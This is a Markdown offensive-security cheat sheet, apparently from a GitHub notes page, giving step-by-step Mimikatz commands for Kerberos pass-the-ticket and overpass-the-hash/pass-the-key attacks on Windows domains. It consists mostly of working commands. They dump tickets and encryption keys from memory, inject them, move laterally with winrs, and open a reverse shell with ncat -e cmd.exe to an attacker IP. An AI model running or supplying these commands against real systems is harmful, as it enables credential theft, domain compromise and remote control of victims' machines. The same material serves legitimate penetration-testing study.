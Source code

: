 ### PassTheTicketMimikatz

**Steps**:
1. `mimikatz.exe`
2. `privilege::debug`
3. **next command exports all TGT and/or TGS tickets** to the current directory as a .kirbi file. The file names start with the LUID of the user and the group number (0 = TGS, 1 = client ticket(?) and 2 = TGT). We are obviously interested in tickets of privileged users, such as *Administrator* or *Domain Admins* users
4. `sekurlsa::tickets /export`
5. `kerberos::ptt <TICKET.kirbi>`
6. `exit`
7. **ticket is injected into memory and available for any tool for *lateral movement***. To check whether the tickets have been injected correctly: `klist`
8. *lateral movement* with `winrs` (to abusing of ticket injected into memory we need to comunicate with target via ***hostname***. Use of hostname forces Kerberos authentication): `winrs.exe -r:<HOSTNAME TARGET> cmd` (*winrs* only works well from CMD)

To delete all tickets injected with *mimikatz*: `kerberos::purge`. 

### OverpassTheHash/PassTheKeyWithMimikatz

When an user requests a TGT, it sends a timestamp encrypted with key derived from his password. Algorithm user to derive such key could be DES (is disabled in current versions of Windows), RC4, AES128 or AES256, depending on the version of Windows installed and on configuration of Kerberos. If we have one of these keys, we can request a TGT from the KDC on behalf of a user without knowing his password, hence the name **Pass-the-Key**.

**Steps**:
1. `mimikatz.exe`
2. `privilege::debug`
3. `sekurlsa::ekeys`
4. *netcat* listener: `nc -nvlp 53`
5. depending of available of keys, we can get a shell via *Pass-the-Key*:
	- **RC4 (== hash NT)**: `sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN NAME> /rc4:<KERBEROS RC4> /run:"c:\tools\ncat.exe -e cmd.exe <IP ATTACKER> 53"`
	- **AES128**: `sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN NAME> /aes128:<KERBEROS AES128> /run:"c:\tools\ncat.exe -e cmd.exe <IP ATTACKER> 53"`
	- **AES256**: `sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN NAME> /aes256:<KERBEROS AES256> /run:"c:\tools\ncat.exe -e cmd.exe <IP ATTACKER> 53"`
6. shell received by the listener will contain in memory the access token of the domain user `<USERNAME>`. We can connect to the target machine and get a shell:
	- `winrs.exe -r:<HOSTNAME TARGET> cmd` (*winrs* works well from CMD)
	- in the "new" shell, with `klist` it is quite normal to see that there are no cached tickets given you have to perform an authentication to generate the TGT
	- command with *winrs* works because, thanks to the ticket, it is as if I were the user `<USERNAME>`
	- to abusing of ticket injected into memory we need to comunicate with target via ***hostname***. Use of hostname forces Kerberos authentication

To delete all tickets injected with *mimikatz*: `kerberos::purge`. 

### TokenImpersonationMimikatz
